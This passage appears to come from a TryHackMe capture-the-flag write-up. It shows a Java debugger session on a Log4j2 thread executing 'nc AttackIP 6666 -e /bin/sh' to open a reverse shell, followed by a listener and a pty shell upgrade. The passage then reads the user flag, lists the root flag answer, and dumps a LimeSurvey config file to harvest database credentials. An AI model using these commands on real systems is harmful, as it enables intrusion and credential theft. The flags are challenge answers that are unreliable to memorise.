 ```bash
Breakpoint hit: "thread=Log4j2-TF-4-Scheduled-1", org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run(), line=96 bci=0

Log4j2-TF-4-Scheduled-1[1] print new java.lang.Runtime().exec("nc AttackIP 6666 -e /bin/sh")
print new java.lang.Runtime().exec("nc AttackIP 6666 -e /bin/sh")
 new java.lang.Runtime().exec("nc AttackIP 6666 -e /bin/sh") = "Process[pid=11770, exitValue="not exited"]"
Log4j2-TF-4-Scheduled-1[1] 
```

<br>

```bash
~/Ghidra# nc -lnvp 6666
...
python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || /usr/bin/script -qc /bin/bash /dev/null
veronica@ubuntu:~$ ls
ls
base.py  Documents  examples.desktop  Music     Public       Templates  Videos
Desktop  Downloads  ghidra_9.0        Pictures  __pycache__  user.txt
veronica@ubuntu:~$ cat user.txt
cat user.txt
THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}
```

<br>

> 1.4. <em>Escalate privileges and obtain root.txt</em><br><a id='1.4'></a>
>> <strong><code>THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}</code></strong><br>
<p></p>

<br>

```bash
veronica@ubuntu:~$ cat /var/www/html/limesurvey/application/config/config.php
cat /var/www/html/limesurvey/application/config/config.php
<?php if (!defined('BASEPATH')) exit('No direct script access allowed');
/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|    'connectionString' Hostname, database, port and database type for 
|     the connection. Driver example: mysql. Currently supported:
|                 mysql, pgsql, mssql, sqlite, oci
|    'username' The username used to connect to the database
|    'password' The password used to connect to the database
|    'tablePrefix' You can add an optional prefix, which will be added
|                 to the table name when using the Active Record class
|
*/
return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'mysql:host=localhost;port=3306;dbname=limedb;',
			'emulatePrepare' => true,
```